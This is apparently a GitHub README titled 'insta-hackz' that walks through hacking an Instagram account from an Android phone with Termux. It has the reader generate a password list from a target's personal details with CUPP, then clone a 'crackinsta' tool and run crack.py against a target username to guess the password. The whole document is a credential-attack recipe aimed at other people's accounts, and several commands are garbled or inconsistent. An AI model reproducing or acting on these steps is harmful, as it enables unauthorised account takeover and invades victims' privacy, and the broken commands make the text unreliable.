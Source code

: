 # insta-hackz
ʜᴏᴡ ʜᴀᴄᴋ ɪɴsᴛᴀɢʀᴀᴍ ᴀᴄᴄᴏᴜᴛ ᴜsɪɴɢ ᴛᴇʀᴍᴜx ɪɴ ʏᴏᴜʀ ᴀɴᴅʀᴏɪᴅ ᴅᴇᴠɪᴄᴇ
install termux from play 
$  apt update and upgrade -y 

$  pkg install git -y 

$  pkg install python && python2 -y

$ pkg install python3

THEN INSTALL CUPP FILE TO GENERATE POWERFULL PASSWORDLIST.
TO INSTALL CUPP MAKE A DITECTORY CUPP BY USING THIS COMMAND

$  mkdir cupp

THEN type this command

$ ls

A NEW DIRECTORY WILL BE CREATED NAMED "Cupp" OPEN THE DIRECTORY BY THIS COMMAND

$ cd cupp

$ git clone https://github.com/Mebus/cupp.git

$ ls

$ cd cupp

$ ls

A DIRECTORY IS CREATED NAMED "CUPP.PY" . TO RUN CUPP TYPE THIS

$ python3 cupp.py
 
 A NEW INTERFACE WILL BE APPEAR. THEN TYPE THIS COMMAND.
 
 $ python3 cupp.py -i

 GIVE YOUR TARGET INFORMATION, THEN TYPE "Y" FOR ALL TO GENERATE PASSWORDLIST.
 
 THE PASSWORDLIST WILL BE CREATED.
 
 $ ls
 
 A DIRECTORY IS CREATED WITH YOUR (TARGET) NAME
 THEN CHANGE THE (target).txt  TO pass.txt
 
 $ mv (target).txt pass.txt
 
 OPEN A NEW SESSION.
 
 $ git clone https://github.com/JTECHCODE/crackinsta.git
 
 $ ls
 
 now instacrack folder appears 
 
 $ cd instacrack
 
 $ pip install requests
 
 $ pip install bs4
 
 OPEN THE PASS.TXT CONTENT.
 
 $ cat pass.txt
 
 $ python crack.py
 
  ENTRE YOUR TARGET USERNAME
 
  ENTRE DELAY SECOND 
  
  WAIT FOR THE PASSWORD TO CRACK.
